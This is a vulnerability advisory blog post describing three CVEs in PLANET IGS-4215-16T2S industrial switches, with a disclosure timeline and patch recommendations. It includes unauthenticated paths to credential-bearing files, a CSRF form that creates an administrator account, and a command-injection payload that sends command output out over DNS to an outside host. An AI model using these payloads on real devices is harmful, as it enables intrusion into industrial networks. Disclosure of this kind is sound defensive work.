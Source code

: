 ```yaml
---
layout: post
title: "CVE-2024-2740, CVE-2024-2741, and CVE-2024-2742. Critical Vulnerabilities Discovered in PLANET IGS-4215-16T2S Industrial Switches"
date: 2025-02-12
categories: [security, research]
tags: [cve, vulnerabilities, network-security, planet-technology, industrial-switches]
---
```


Designed to be installed in heavy industrial demanding environments, the IGS-4215-16T2S / IGS-4215-16T2S-U is the new member of PLANET Industrial-grade, DIN-rail type L2/L4 Managed Gigabit Switch family to improve the availability of critical business applications. It provides IPv6/IPv4 dual stack management and built-in L2/L4 Gigabit switching engine along with 16 10/100/1000BASE-T ports, and 2 extra 100/1000BASE-X SFP fiber slots for data and video uplink. The IGS-4215-16T2S / IGS-4215-16T2S-U is able to operate reliably, stably and quietly in any hardened environment without affecting its performance. It comes with operating temperature ranging from -40 to 75 degrees C in a rugged IP30 metal housing.

![](/img/planet.jpg)

Industrial networking equipment plays a crucial role in modern infrastructure, connecting and controlling critical systems across manufacturing plants, energy facilities, and smart city deployments. The PLANET IGS-4215-16T2S is a managed industrial switch designed for these demanding environments, featuring 16 10/100/1000T ports and 2 100/1000X SFP ports, making it a popular choice for industrial applications requiring reliable Ethernet connectivity.

During a recent security assessment at IOActive, I had the opportunity to analyze this device from a security perspective. The IGS-4215-16T2S comes with features like VLAN support, Quality of Service (QoS), and various management interfaces, including a web-based administration panel. However, our investigation revealed several concerning security vulnerabilities that could potentially compromise not just the device itself, but the entire industrial network it's connected to.


## Unauthenticated Access to Backup Files (CVE-2024-2740)

### Description
The first and most critical vulnerability discovered carries a HIGH severity rating. While the device's administrative web interface requires authentication for most operations, we found that the session verification mechanism failed to protect several critical system resources.

The device stores various configuration and backup files in predictable paths within the `/tmp/` directory, including: 

* `/tmp/ram.log`
* `/tmp/running-config.cfg`
* `/tmp/backup-config.cfg`

What makes this particularly concerning is that these files contain sensitive information, including device credentials, and can be accessed without any authentication.

### Impact
An unauthenticated attacker could:
- Access complete device configurations
- Extract stored usernames and passwords
- Potentially compromise the entire industrial network
- Gain persistent access to the device and its management features


## CSRF in Administrative User Creation (CVE-2024-2741)

### Description
The second vulnerability, rated as MEDIUM severity, enables Cross-Site Request Forgery (CSRF) attacks that could lead to unauthorized creation of administrative users without the legitimate administrator's knowledge.

The issue stems from several security oversights:
1. No CSRF tokens implementation to protect sensitive actions
2. Acceptance of GET requests for operations that should be POST-only
3. Lack of re-authentication requirements for critical actions like user creation


### Proof of Concept
The vulnerability can be exploited using a simple HTML form:

```html
<form action="https://[DEVICE-IP]/cgi-bin/dispatcher.cgi">
    <input type="hidden" name="usrName" value="test" />
    <input type="hidden" name="usrPassType" value="1" />
    <input type="hidden" name="usrPass" value="ioactive" />
    <input type="hidden" name="usrPass2" value="ioactive" />
    <input type="hidden" name="usrPrivType" value="15" />
    <input type="hidden" name="cmd" value="525" />
    <input type="submit" value="Submit request" />
</form>
```


### Impact

An attacker could:
- Create new administrative users without authorization
- Gain persistent access to the device
- Execute malicious actions appearing as legitimate user activity
- Maintain long-term unauthorized access even after the initial compromise is detected

## Authenticated Remote Code Execution (CVE-2024-2742)

### Description
The third vulnerability discovered, rated as LOW severity, affects the Ping Test functionality located in the device's diagnostic tools (Maintenance -> Diagnostic -> Ping Test -> IP Address). The issue stems from inadequate input sanitization in the ping test function, which could allow an authenticated attacker to execute arbitrary commands on the device.

### Proof of Concept

The vulnerability can be exploited by injecting commands into the ping test functionality. For demonstration purposes, we used DNS requests to exfiltrate sensitive system information:

```bash
;ping `uname`.subdomain.com
```

When this payload is entered into the Ping Test functionality, the device:
1. Executes the `uname` command
2. Uses the output as part of a domain name
3. Attempts to ping the resulting domain name

This resulted in DNS queries being made to domains like:
- `Linux.zoraoperl8y4x71u2jb3rbopjgp6dv.oastify.com`
- `root.zoraoperl8y4x71u2jb3rbopjgp6dv.oastify.com`

These DNS queries confirmed that:
- The system is running Linux
- The web application is running with root privileges

### Impact

An authenticated attacker could:
- Execute arbitrary commands on the device
- Gather sensitive system information
- Potentially compromise the entire device
- Use the device as a pivot point for further network attacks

## Timeline and Resolution

The vulnerability was discovered on September 29, 2022, and reported to PLANET Technology on March 29, 2023. The manufacturer released a firmware update (version 1.305b231218) on December 13, 2023, that addresses these vulnerabilities.


## Recommendations

For network administrators using these devices, we recommend:

1. Immediately upgrade to the latest available firmware
2. Implement network segmentation to isolate these devices
3. Actively monitor access to these equipments
4. Consider implementing additional security controls at the network level


## Conclusion

These vulnerabilities highlight the ongoing challenges in industrial device security. Basic security controls like session verification and CSRF protection should be standard features in any networked device, especially those deployed in critical industrial environments.

This research underscores the importance of regular security assessments for industrial network equipment, as even seemingly basic vulnerabilities can have significant implications for operational technology environments.

Find all the details of this advisory on [IOActive's Blog](https://info.ioactive.com/acton/attachment/34793/f-67b1aed6-db74-4efa-82f3-042001c778cb/1/-/-/-/-/IOActive%20Security%20Advisory%20-%20PLANET%20Networking%20-%20Vulnerabilities%20Identified.pdf)

